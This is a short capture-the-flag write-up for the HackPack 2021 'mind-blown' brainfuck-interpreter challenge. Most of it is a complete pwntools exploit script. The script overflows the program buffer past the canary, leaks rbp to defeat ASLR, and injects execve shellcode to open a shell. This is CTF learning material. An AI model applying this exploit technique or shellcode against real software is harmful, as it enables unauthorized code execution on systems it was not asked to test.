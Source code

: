 ```
I wasn't allowed to put the real title of this challenge. I wonder what it was?

nc ctf2021.hackpack.club 10996
```
[mind-blown](https://ctf2021.hackpack.club/files/2634097c70153a1b2e62960f3410e89d/mind-blown?token=eyJ1c2VyX2lkIjoxODMsInRlYW1faWQiOjY0LCJmaWxlX2lkIjozMH0.YH2IRw.AKkbSlGfG7e441BQztbm2ScDwqI)

We do just a little reverse engineering to get some sense of the program.
We can see a `runProgram` function which takes no arguments and uses a buffer
of size 4096 to save the brainfuck program.

```python
from pwn import *

BUFFER_SIZE = 4096
p = remote("ctf2021.hackpack.club", 10996)

shellcode = (b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7'
             b'\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05')

# We add 8 to the buffer size to skip the canary
# Then read the rbp to defeat ASLR
# And finally write the stack address and our shellcode to the stack
bf_program = b'>'*(BUFFER_SIZE + 8) + b'.>'*8 + b',>'*(8 + len(shellcode))

p.recvuntil("in your program: ")
p.sendline(str(len(bf_program)))
p.recvuntil("Enter your program text below:\n")
p.send(bf_program)

leak = b""
while len(leak) < 8:
    leak += p.recv(8 - len(leak))
rbp = u64(leak)
print(f"leaked rbp: {hex(rbp)}")

# runProgram has 0 parameters, so we go back 16 bytes (address and rbp of main)
shellcode_addr = p64(rbp - 16)
p.send(shellcode_addr + shellcode)
p.interactive()
```
